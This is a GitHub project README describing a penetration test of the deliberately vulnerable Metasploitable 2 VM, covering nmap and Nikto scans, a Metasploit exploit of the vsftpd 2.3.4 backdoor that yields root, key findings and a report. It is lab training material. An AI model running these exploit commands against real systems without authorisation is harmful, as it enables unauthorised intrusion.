 ## 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap! [Roadmap Infographic](assets/roadmap_infographic.png)  

---

## 🔹 Steps Performed

1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV <target-ip> -oN nmap_scan.txt

2️⃣ Vulnerability Scanning

Nmap vulnerability scripts

nmap -sV --script vuln <target-ip> -oN vuln_results.txt


Nikto web scan

nikto -h http://<target-ip> -output nikto_results.txt

3️⃣ Exploitation (Metasploit)

Exploited vsftpd 2.3.4 backdoor (CVE-2011-2523)

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run

Verified root access with:

whoami

4️⃣ Reporting

Documented findings, CVEs, and remediation

Delivered a professional consultancy-style report (PDF)


🔹 Deliverables

📄 [Full Report (PDF)](report/Metasploitable2_Pentest_Report_Final.pdf)

🖼️ [Roadmap Infographic](assets/roadmap_infographic.png)

📸 [Proof Screenshots](screenshots)

🔹 Tools Used

Kali Linux

Nmap

Nikto

Metasploit Framework

🔹 Key Findings

Critical: FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access

High: Outdated Apache 2.2.8 & PHP 5.2.4

Medium: Missing HTTP security headers

🔹 Author

👤 Gufran Ahmed
🌐 [LinkedIn](https://www.linkedin.com/in/gufran-uh/)
